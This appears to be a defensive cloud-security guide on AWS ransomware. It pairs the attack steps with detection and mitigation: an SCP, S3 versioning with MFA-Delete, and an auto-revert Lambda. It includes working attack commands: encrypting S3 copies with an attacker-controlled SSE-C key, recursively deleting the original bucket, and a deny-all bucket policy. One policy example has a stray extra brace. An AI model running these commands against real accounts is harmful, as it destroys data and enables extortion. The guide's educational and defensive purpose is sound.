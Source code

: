 ```yaml
---
title: "AWS Ransomware Attack & Defense Techniques"
description: "Understanding and Mitigating Ransomware in AWS"
---
```


# AWS Ransomware: Attack & Defense Techniques

## 📌 Overview
Ransomware actors have started leveraging AWS environments, particularly S3 storage, IAM misconfigurations, and KMS encryption, to lock organizations out of their data. This page explores **attack techniques** and **defensive measures** with step-by-step guides.

---

## 🚨 **Step-by-Step Ransomware Attack in AWS**
### **1️⃣ Initial Access**
**Attackers gain access via:**
- **Leaked AWS Credentials** (e.g., found in public repos, phishing attacks).
- **IAM Role Exploitation** (e.g., overly permissive roles attached to EC2 instances).
- **Compromised User Accounts** via password spraying or social engineering.

#### **🔎 Detection:**
✅ Enable AWS GuardDuty to detect anomalous API calls.
✅ Monitor `ListAccessKeys`, `ListUsers`, `ListRoles` in AWS CloudTrail.

---

### **2️⃣ Enumerate S3 Buckets & Objects**
Once inside, attackers list available **S3 buckets** to find sensitive data.

```sh
aws s3 ls
aws s3 ls s3://target-bucket --recursive
```

#### **🔎 Detection:**
✅ Enable Amazon Macie to detect sensitive data exposure.
✅ Use AWS Config to enforce `s3:ListBucket` restrictions.

---

### **3️⃣ Encrypt & Copy Data with SSE-C**
Instead of encrypting existing files, attackers **copy** them with **server-side encryption (SSE-C)**, using a key they control.

```sh
openssl rand -base64 32 > encryption.key
aws s3 cp s3://target-bucket s3://encrypted-bucket --recursive \
    --sse-c --sse-c-key file://encryption.key
```

#### **🔎 Detection:**
✅ Alert on unusual `s3:CopyObject` and `s3:PutObject` events.
✅ Track high-volume S3 data movement using AWS CloudTrail insights.

---

### **4️⃣ Delete or Lock Access**
Attackers delete original files or modify bucket policies to block access.

```sh
aws s3 rm s3://target-bucket --recursive
```

Or, block access with a restrictive bucket policy:

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Deny",
      "Principal": "*",
      "Action": "s3:*",
      "Resource": "arn:aws:s3:::target-bucket/*"
    }
  ]
}
```

#### **🔎 Detection:**
✅ Monitor `s3:DeleteObject`, `s3:PutBucketPolicy` events.
✅ Use AWS Config to detect and revert bucket policy changes.

---

## 🛡 **Mitigation & Defense Strategies**
### **1️⃣ Secure AWS IAM & SCPs**
**IAM & SCP (Service Control Policy) to Prevent Unauthorized S3 Encryption:**

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Effect": "Deny",
      "Action": ["s3:PutEncryptionConfiguration"],
      "Resource": "*",
      "Condition": {
        "StringNotEqualsIfExists": {
          "aws:PrincipalArn": "arn:aws:iam::123456789012:role/SecurityAdmin"
        }
      }
    }
  ]
}
}
```

✅ Apply this SCP at the **AWS Organization level** to prevent unauthorized encryption changes.

---

### **2️⃣ Enable Object Versioning & MFA-Delete**
Protect against data deletion with **S3 versioning** and **MFA-Delete**.

```sh
aws s3api put-bucket-versioning --bucket target-bucket --versioning-configuration Status=Enabled
aws s3api put-bucket-versioning --bucket target-bucket --versioning-configuration Status=Enabled,MFADelete=Enabled --mfa "arn:aws:iam::123456789012:mfa/admin 123456"
```

✅ This ensures deleted objects can be recovered.

---

### **3️⃣ Detect and Alert on Anomalous Activity**
- **Enable GuardDuty** for `S3:CopyObject` & `S3:PutBucketPolicy` alerts.
- **Set up AWS Lambda to auto-revert unauthorized changes.**

Example Lambda Function to **Revert Policy Changes**:

```python
import boto3

def lambda_handler(event, context):
    s3 = boto3.client('s3')
    bucket_name = event['detail']['requestParameters']['bucketName']
    s3.put_bucket_policy(
        Bucket=bucket_name,
        Policy=open("default_policy.json").read()
    )
    return {"status": "Policy Restored"}
```

✅ Attach this Lambda function to an **Amazon EventBridge Rule** monitoring `PutBucketPolicy` actions.

---

## 🚀 **Conclusion**
AWS environments are increasingly targeted by **ransomware actors**. Organizations should:
✅ **Restrict IAM permissions** with least privilege.
✅ **Enable logging & monitoring** via GuardDuty & CloudTrail.
✅ **Use SCPs & preventive controls** to block unauthorized encryption.
✅ **Automate responses** with AWS Lambda & EventBridge.

> **🔗 Reference:** [Red Canary AWS Ransomware Analysis](https://redcanary.com/blog/incident-response/aws-ransomware/)

---

## 📢 **Want to contribute?**
🔗 Fork this project on **GitHub** and help improve cloud security! 🚀

